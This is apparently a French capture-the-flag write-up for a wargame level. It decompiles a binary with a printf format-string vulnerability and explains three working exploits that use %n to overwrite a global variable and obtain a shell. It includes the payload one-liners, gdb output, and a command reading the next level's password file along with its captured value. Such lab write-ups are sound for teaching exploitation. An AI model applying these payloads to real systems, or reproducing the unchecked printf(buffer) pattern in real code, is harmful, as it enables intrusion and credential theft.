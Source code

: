 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=b1a5a447-06b3-402d-a740-453263922d7a 

```c
void v(void)
{
  char local_20c [520];
 
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 60) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}
```

# Explication

On va utiliser `%n` pour écrire dans la mémoire.

>  - %n: The number of characters written so far is stored into the integer indicated by the corresponding argument.

Voir aussi : https://www.geeksforgeeks.org/g-fact-31/ 

## 1ere solution

Pour atteindre la position de notre buffer dans printf, on doit utiliser le 4eme argument (c’est pour ça qu’on met 3 `%p`).
La position en nombre d’argument est obtenue en faisant : `aaaaaaaaaaa %p %p %p %p %p %p %p %p`, et on prend le premier
élément contenant plein de 0x61 (= 97, code ascii de la lettre a).

4 + 25 (=> final size of `%p %p %p`) + 35 = 64

```
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c

$ (python -c "print('\x8c\x98\x04\x08%p%p%p' + 'a' * 35 + '%n')"; cat) | ./level3
�0x2000xb7fd1ac00xb7ff37d0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## 2eme solution

D’après le man : https://man7.org/linux/man-pages/man3/printf.3.html et https://axcheron.github.io/exploit-101-format-strings/
*"We can specify a postion to read/write on the stack with %<num>$n"*, on obtient l'alternative suivante :

On peut écrire dans le 4ème argument avec `%4$n` au lieu de `%p %p %p %n` :

```
(python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n')"; cat) | ./level3
```

## 3eme solution

On peut directement faire un padding avec le formatstring de printf (`%60x`). On obtient :

```
(python -c "print('\x8c\x98\x04\x08%60x%4\$n')"; cat) | ./level3
```

